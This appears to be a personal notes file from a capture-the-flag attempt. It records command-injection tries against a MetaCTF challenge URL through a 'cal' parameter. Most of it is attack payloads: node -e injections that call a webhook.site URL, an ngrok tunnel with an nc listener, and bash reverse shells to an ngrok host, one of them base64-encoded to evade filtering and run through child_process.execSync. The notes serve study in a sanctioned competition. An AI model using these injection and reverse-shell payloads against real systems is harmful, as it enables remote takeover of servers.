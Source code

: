 ## testing
```
https://compete.metactf.com/302/?auth=true&uid=1856312&tok=410cde24de52a2169334fbb11dd6edb3
&cal=node -e 'eval("require")("node-fetch")("https://webhook.site/41ec69bd-3f25-459a-94e7-b7a87fec9a97");
no get request to webhook site can be seen
may be outboud is not allowed
givs 403
the function looks like is being called
```
- this is not giving  403
```
https://compete.metactf.com/302/?auth=true&uid=1856312&tok=410cde24de52a2169334fbb11dd6edb3&cal=node -e '1'
```
- ngrok tcp 1234
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/0a865692-0156-4b56-a212-84b0310529ac)
- nc -lvp 1234
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/a41b3d73-3064-4e9d-b8a8-be94d956abd5)

```
bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17838 0>&1
```
### testing in local
```
C:\tmp\test> node -e "require('child_process').execSync('ls', {stdio:[0,1,2]});"
file1

C:\tmp\test>
```
### testing in url
```
https://compete.metactf.com/302/?auth=true&uid=1856312&tok=410cde24de52a2169334fbb11dd6edb3
&cal=node -e "require('child_process').execSync('ls', {stdio:[0,1,2]});"
--this is giving a 403
```

### try1
```
node -e "require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17838 0>&1\"', {stdio:[0,1,2]});"
no connection back but 403
```
### try2
```
may be base64 encoding

C:\tmp> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17838 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzgzOCAwPiYxCg==

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzgzOCAwPiYxCg==' |base64 -d|bash


node -e "require('child_process').execSync('bash -c \"echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzgzOCAwPiYxCg==' |base64 -d|bash\"', {stdio:[0,1,2]});"

```

